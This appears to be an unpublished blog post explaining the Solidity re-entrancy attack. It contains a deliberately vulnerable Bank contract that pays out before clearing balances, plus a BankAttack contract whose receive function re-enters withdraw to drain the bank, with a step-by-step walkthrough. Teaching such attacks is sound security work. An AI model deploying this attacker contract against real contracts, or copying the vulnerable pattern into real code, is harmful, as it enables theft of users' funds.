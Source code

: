 ```yaml
---
title: Solidity Attacks => Re-Entrancy
date: 2024-04-19 
categories: [solidity]
tags: [solidityattacks]     
description: Re-entrancy attack explained
published: false
---
```


Below is a vulnerable contract

```
pragma solidity ^0.8;

contract Bank {
    mapping(address => uint) balance;

    function deposit() public payable {
        balance[msg.sender] += msg.value;
    }

    function withdraw() public payable {
        require(balance[msg.sender] != 0, "No Balance");
        (bool success, ) = msg.sender.call{value: balance[msg.sender]}("");
        require(success, "Fail Sending");

        balance[msg.sender] = 0;
    }

    function getBalance(address _addr) public view returns (uint){
        return balance[_addr];
    }

    // The call will be put on hold till the receive function in the other contract is done executing, so 
    // if the recevie function calls withdraw() again the require(balance[msg.sender]!=0) is bypassed.
}

contract BankAttack {

    Bank bank;

    constructor(address _addr) payable {
        bank = Bank(_addr);
    }

    function deposit(uint val) public payable {
        bank.deposit{value: val}();
    }

    function attack() public {
        bank.withdraw();
    }

    receive() external payable { 
        if (address(bank).balance >= 1 ether) {
            bank.withdraw();
        }

        // If statement used because it more like loops. The new withdraw function will call receive again and so until balance is 0, withdraw() is called.
    }
}
```

- Bank contract is deployed, users send money to it and it has a total of 7 eth.
- Attacker deposit say 1 ether, so now attacker has a balance of 1 ether.

- BankAttacker calls the attack() function , it calls withdraw function since "balance[msg.sender] != 0" is true.
- Withdraw sends 1 ether to attackers receive function and the withdraw call frame after execution is paused until attacker's receive is executed.

- Now the receive function calls withdraw again, "balance[msg.sender] != 0" is still true because it comes after the call frame.
- The withdraw function again sends 1 ether to attackers receive function. Again the receive function calls withdraw(), still the balance is not updated.

So until "address(bank).balance >= 1 ether" is true this more like a loop keeps on going. The Bank Contract is no drained and the attacker has 8 eth now.
